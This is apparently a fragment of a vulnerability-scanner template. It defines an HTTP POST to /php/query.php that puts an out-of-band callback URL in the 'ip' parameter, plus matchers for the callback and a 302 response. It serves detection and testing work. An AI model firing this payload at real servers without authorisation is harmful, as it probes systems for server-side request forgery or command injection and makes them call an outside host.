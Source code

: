 ```
POST /php/query.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

ip={{interactsh-url}}:80&argu=/

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 302

---
